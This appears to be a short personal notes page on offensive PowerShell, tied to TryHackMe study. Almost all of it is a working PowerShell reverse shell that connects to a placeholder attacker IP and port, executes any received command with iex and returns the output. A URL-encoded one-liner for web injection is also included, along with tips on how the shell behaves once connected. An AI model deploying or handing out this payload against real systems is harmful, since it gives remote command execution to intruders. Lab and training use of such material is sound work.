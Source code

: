 # Exploiting PowerShell

## Pure PowerShell Reverse Shells

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | %{0};
while (( $i = $stream.Read($bytes, 0, $bytes.Length) ) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
	$sendback = ( iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ( [text.encoding]::ASCII ).GetBytes($sendback2);
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush()
}
$client.Close()
```

URL-encoded version (uses `powershell -c "$CODE"`):

```URL-encoded version of the above PowerShell reverse shell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Note that `<IP>` and `<PORT>` need to be appropriately replaced in the above code.

One annoying thing about this reverse shell… There’s no initial prompt, so you have no idea whether you’ve connected or not. but as soon as you enter a command (`whoami`, etc.), a prompt will appear after the output. On the plus side, however, this reverse shell will persist even after the PHP script times out!

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [@rootsecdev on Twitter](https://twitter.com/rootsecdev/status/1487612184498774019)

- - - -

👤 Nathan Acks  
📅 October 29, 2021
